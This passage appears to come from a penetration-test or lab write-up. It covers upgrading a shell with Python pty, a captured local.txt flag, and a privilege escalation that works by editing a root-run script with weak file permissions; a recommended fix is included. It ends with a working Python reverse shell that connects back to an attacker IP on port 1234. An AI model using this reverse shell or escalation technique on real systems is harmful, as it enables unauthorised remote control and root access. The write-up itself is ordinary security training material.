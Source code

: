 Now we can pimp (upgrade) our shell

```bash
python -c "import pty;pty.spawn('/bin/bash')"
```

![x](screenshots-storage/pimp_shell.png)

\newpage

**Local.txt Contents**

```txt
9a093cd22ce86b7f41db4116e80d0b0f
```

\newpage

#### Privilege Escalation

**Vulnerability Exploited:** Weak File Permissions

**Vulnerability Explanation:**

An attacker has access a file that is automatically run by the root user. Using this permission to edit the file, an attacker can run malicious code on the target machine with root priveleges. 

**Vulnerability Fix:**

Revoke permission for users besides root to edit */home/sun/Documents/script.py*.

**Severity:** Critical

\newpage

**Exploit Code:**

Using *pspy64*, we can see that *script.py* is run by root:

```txt
2022/05/03 19:00:01 CMD: UID=0    PID=26465  | cp /root/script.py /home/sun/Documents/script.py
```

We can edit */home/sun/Documents/script.py*

Create a python reverse shell file named *rev.py* on your attacker machine:

```python
import socket,subprocess,os
s=socket.socket(socket.AF_INET,socket.SOCK_STREAM)
s.connect(("10.10.14.3",1234))
os.dup2(s.fileno(),0)
os.dup2(s.fileno(),1)
os.dup2(s.fileno(),2)
import pty
pty.spawn("/bin/sh")
```

